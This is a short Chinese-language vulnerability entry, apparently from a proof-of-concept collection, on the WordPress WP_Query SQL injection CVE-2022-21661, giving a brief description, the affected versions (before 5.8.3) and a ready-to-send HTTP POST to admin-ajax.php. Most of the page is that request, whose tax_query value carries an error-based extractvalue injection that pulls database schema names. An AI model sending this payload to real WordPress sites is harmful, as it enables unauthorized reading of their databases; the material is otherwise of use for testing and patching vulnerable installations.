

WordPress WP_Query SQL 注入漏洞 CVE-2022-21661¶
漏洞描述¶
WordPress是一个用PHP编写的免费开源内容管理系统，由于clean_query函数的校验不当，导致了可能通过插件或主题以某种方式从而触发SQL注入的情况。这已经在WordPress5.8.3中进行了修复。影响版本可以追溯到3.7.37。
参考链接：
漏洞影响¶
WordPress < 5.8.3
漏洞POC¶
获取数据库名：
POST /wp-admin/admin-ajax.php HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 130
action=test&data={"tax_query":[{"field":"term_taxonomy_id","terms":["1) and extractvalue(rand(),concat(0x5e,(select group_concat(schema_name) from information_schema.SCHEMATA)))#"]}]}
